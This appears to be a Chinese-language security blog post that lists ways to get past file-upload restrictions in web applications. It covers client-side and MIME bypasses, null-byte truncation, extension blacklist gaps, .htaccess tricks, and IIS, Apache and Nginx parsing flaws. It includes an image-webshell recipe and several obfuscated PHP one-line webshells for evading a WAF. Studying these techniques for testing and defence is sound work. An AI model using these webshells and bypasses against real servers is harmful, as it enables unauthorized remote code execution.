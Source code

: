 ```yaml
---
published: true
layout: post
tags: web安全
categories: document
---
```


##  客户端检测绕过
   通过前端js脚本对上传进行限制，通过设置禁止浏览器js脚本运行或者通过 burp 之类的代理工具进行绕过提交 .
在burp中将图片后缀名改为asp后，在服务器中就会以asp格式存储  
![](ljjbloghub.github.io/blob/master/img/上传1.png)
##  服务器端检测绕过
### 文件类型(mime)检测 
可以使用burpsuite ，repeater模块修改content-Type：为image/png绕过验证.   

### 目录路径检测 
burp抓包如果能看见上传文件路径，可以使用空字符截断目录路径来绕过   
1.	get方法传送文件路径，利用%00截断   
![](ljjbloghub.github.io/blob/master/img/上传2.png)
那么你上传一个jpg图片后就会存为以下格式，空格后的内容会被截断  
![](ljjbloghub.github.io/blob/master/img/上传3.png)
2.若是post方法传送路径，需要在hex中修改二进制将空格20改为00，这样服务器端保留的文件为11.php（.php%00.jpg）     
           
### 后缀名检测 
基于黑名单的绕过：  
 1、php可以执行的后缀名.php2，3，4，5  
 2、test.asp%00.jpg   test.php(0x00).jpg的方式进行截断   
3、找黑名单扩展名的漏网之鱼，比如上传.asa\.cer\.cdx\.asax这四种文件格式也会被当着asp脚本来解析）  
4、可能存在大小写绕过漏洞，比如 aSp 和 pHp 之类,若没有去空处理可以加个空格绕过。   
5、利用windows和Linux系统的特性进行特殊文件名绕过，a.asp. a.asp_（test.php:.jpg test.php::$DATA ）这种命名方式在 windows 系统里是不被允许的，所以需要在 burp 之类里进行修改 ，然后绕过验证后，会被 windows 系统自动去掉后面的点和空格。   


白名单绕过：  
1、截断攻击   
2、利用解析漏洞  
3、特别文件名构造  


### 解析攻击（利用web应用服务器的漏洞上传可执行脚本）  

若.Htaccess格式允许上传，上传htaccess文件，能够让jpg以php格式运行  
	内容为 AddType application/x-httpd-php .jpg  
   
iis6.0解析漏洞:  
1、创建目录包含.asp那么此文件夹内的文件都会以asp运行。  
![](ljjbloghub.github.io/blob/master/img/上传4.png)  
2、运行目录解析 将/视为截断（/xx.asp/xx.jpg）.     
3、只要文件名中含有 ".asp;" 会优先按 asp 来解析  
 例： xxx.asp;.jpg以这个后缀上传图片马,就会以asp解析  
     
IIS7.0/7.5 解析漏洞:  
  对 php 解析时有一个类似于 Nginx 的解析漏洞，对任意文件名只要在 URL 后面追加上字符串"/任意文件名.php"就会按照 php 的方式去解析   
     
Apache解析漏洞（双扩展名解析绕过)    
  1、 Apache 是从右到左开始判断解析，后缀名改为 a.php.7z 如果服务器没有设置对7z后缀以什么格式解析的话那么会自动变为php  
  2、 如果在 Apache 的 conf 里有这样一行配置AddHandler php5-script .php。这时只要文件名里包含 .php，即使文件名是 test2.php.jpg 也会以 php 来执行   

Nginx 解析漏洞（php自身的漏洞） 
    1、一个是对任意文件名，在后面添加 /任意文件名.php的解析漏洞，比如原本文件名是 test.jpg，可以添加为 test.jpg/x.php 进行解析攻击。   
    2、还有一种是对低版本的 Nginx 可以在任意文件名后面添加 %00.php 进行解析攻击。   

### 文件内容检测  
制作图片木马可以绕过或者在木马内容基础上再加了一些文件信息  
1.文件幻数检测:
	![](ljjbloghub.github.io/blob/master/img/上传5.png)
2.文件相关信息检测绕过：  
根据类型在文件头部添加以下文本  
（1） .JPEG;.JPE;.JPG，”JPGGraphic File”  
（2） .gif，”GIF 89A”  
（3） .zip，”Zip Compressed”  
（4） .doc;.xls;.xlt;.ppt;.apr，”MS Compound Document v1 or Lotus Approach APRfile” 

3.文件加载检测绕过：  
 在图片注释处("")添加php代码   
     ![](ljjbloghub.github.io/blob/master/img/上传6.png)
Windows环境下图片马制作方法：  
    copy normal.jpg /b + shell.php /a webshell.jpg

PS:图片马上传后需要配合解析漏洞或者本地文件包含漏洞才能以脚本语言解析。  

### 文件上传一句话php马绕过waf
（适用于php版本7.0以下）
1.  
    <?php $_GET[“test1"]($_GET[“test2"]); ?>   //与菜刀连接执行的时候通过test1内容为“assert”，test2为post方式，即可实现代码的执行。 菜刀密码为test2  

2.  
  	$str="a=assert";  
    parse_str($str);//执行这个函数后，生成一个变量$a，值为字符串”assert"  
     
3.  

    <?php 
    function fun() 
    {return $_POST['a'];} 
    @preg_replace("/test/e",fun(),"test test test"); 
    ?> 
    
4.

  <?php 
  $b='tressa'; 
  $c=strrev($b); 

  $c($_POST[key]); 
  ?> 
  

文件上传思维导图：
![](ljjbloghub.github.io/blob/master/img/上传7.png)


